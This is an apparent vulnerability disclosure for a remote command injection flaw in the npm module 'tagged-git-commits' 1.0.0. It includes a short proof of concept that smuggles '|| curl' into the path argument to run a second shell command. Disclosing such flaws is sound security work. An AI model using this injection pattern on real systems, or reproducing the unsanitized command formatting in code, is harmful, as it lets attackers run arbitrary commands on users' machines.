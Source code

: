 Details:
I would like to report a `RCE` issue in the `tagged-git-commits` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

# Module
**module name:** `tagged-git-commits`
**version:** `1.0.0`
**npm page:** `https://www.npmjs.com/package/tagged-git-commits`

## Module Description
> Get the commit hash and refs/tags of tagged commits, remote and local

## Vulnerability Description

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/aichbauer/node-tagged-git-commits/blob/master/index.js#L29

## PoC

```js
// poc.js
const taggedCommits = require('tagged-git-commits');

taggedCommits({
	path: './git || curl "http://localhost/RCE"',
});
```

## Impact
`RCE` on `tagged-git-commits` via `insecure command formatting`
